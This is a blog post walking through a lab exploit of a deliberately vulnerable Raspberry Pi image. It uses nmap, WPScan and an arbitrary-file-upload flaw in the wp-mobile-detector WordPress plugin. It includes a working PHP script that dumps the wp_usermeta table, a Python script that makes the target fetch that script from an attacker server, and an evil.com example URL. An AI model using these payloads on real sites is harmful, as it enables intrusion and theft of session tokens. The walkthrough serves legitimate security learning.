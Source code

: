 ```yaml
---
title: Hacking your own Raspberry Pi – Part 2 WordPress exploits
date: '2018-11-17T16:51:00.000Z'
layout: post
draft: false
path: '/2018/11/17/hacking-your-own-raspberry-pi-part-2-wordpress-exploits/'
category: 'Hacking'
tags:
  - 'Hacking'
  - 'Security'
description: 'Hacking your own Raspberry Pi – Part 2: WordPress Exploits'
---
```


Continuing our series on Setting up and Hacking our Raspberry Pi, let’s see if we can crack a real application running on our target. Warning: This contains spoilers for Sticky Fingers Damn Vulnerable Pi (DV-PI3).

One of the first things that happens during a hack is something called Enumeration. It means to find your target, ports, and services that are potentially vulnerable attack vectors.

```sh
nmap 192.168.1.0/24
```

This will show you all of the devices on your network. I also see our target.

![NMap Scan](./nmap_scan.png)

It is running SSH and a web server.

![DVPI Wordpress](./dvpi-wordpress.png)

Navigating to our target in our browser, we see what looks like a WordPress site. Let’s scan it for potential vulnerabilities. I will be doing an aggressive scan using WPScan. We are now moving away from Enumeration and into Scanning.

```sh
wpscan --url 192.168.1.161 --enumerate --plugins-detection aggressive
```

This might take a minute, and it produces a lot of output. We see something promising among the rubble: a highly vulnerable plugin.

![WPScan](./wp-scan.png)

The plugin in question is called wp-mobile-detector. We see a stored XSS attack is possible here, and arbitrary file upload. For today, we will focus on the latter.

**Arbitrary file upload** can be extremely dangerous. Especially if these files also get executed by the server's PHP engine. We can really get creative here. Here are some things that come to mind when I see this.

- Availability attack. Script the upload of large files to crash the server, or hurt performance by filling disk space and memory.

- Social engineering. Put a malicious login form on the server, then link this to people. Siphon passwords and other information from users.

- Upload a malicious PHP script that dumps database information from the server to the attacker.

The first and second attack are not as interesting in a lab setting, so let’s try the third. And I should say, there are dozens of other creative attacks here. This exploit looks like it uses a mobile device resize mechanism that downloads a src parameter to the server and stores it in cache. For example:

`http://www.vulnerable.com/wp-content/plugins/wp-mobile-detector/resize.php?src=http://www.evil.com/crack.php`

The “src” parameter here is the location of our malicious script, which will be stored on server here:

`http://www.vulnerable.com/wp-content/plugins/wp-mobile-detector/cache/crack.php`

Let’s sling some PHP to dump some database information.

```php
<?php
require_once( $_SERVER['DOCUMENT_ROOT'] . '/wp-config.php' );
require($_SERVER['DOCUMENT_ROOT'] . '/wp-load.php');
global $wpdb;
echo 'hacked!<br>';
echo 'stickyfingers proof: ' . file_get_contents("/proof.txt");
echo '<br><br>database stuffz...<br>';
$querystr ="SELECT * FROM wordpress.wp_usermeta";
$pageposts = $wpdb->get_results($querystr, OBJECT);
echo '<pre>'; print_r($pageposts); echo '</pre>';
?>
```

And we will need an attack server to host it. I spun up a Nginx server to do this. Here’s a simple Nginx config

```sh
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    root /home/zeevo/Projects/static;
    index index.html;
    location / {
        try_files $uri $uri/ =404;
    }
}
```

And inside that site we have our PHP.

![LS](./ls.png)

Let’s use Python to send the hack.

```python
import requests

target = 'http://192.168.1.161/wp-content/plugins/wp-mobile-detector/resize.php'
evil_script = 'http://192.168.1.156/evil.php' # my attack server
payload = {
'src': evil_script
}

requests.post(target, data=payload)
```

We are now in the Attack phase. Let’s do this:

```sh
python hack.py
```

And if everything worked we should see some fun stuff back on the WordPress site. Navigating to our script triggers the web server to run PHP on it, executing all the code and returning the result to the attacker.

http://192.168.1.161/wp-content/plugins/wp-mobile-detector/cache/evil.php

![Stickyfingers Proof](./stickyfingers_proof.png)

Boom! We dumped the wp_usermeta table, which contains session_tokens. With this we could session hijack normal users, or even the admin!

Let’s summarize what we did.

Enumerate to find our target and services using nmap
Scan aggressively for attack vectors using WPscan
Attack/Exploit vulnerabilities we find using Python, PHP, and an attack server.
That’s all for now though. I hope those that are stuck on Stickyfingers Damn Vulnerable Pi find this helpful.

References:

- https://wpvulndb.com/vulnerabilities/8059

Disclaimer:

- Hacking any computer system without permission is illegal. The above information is for educational purposes only. Get permission before pen testing systems.
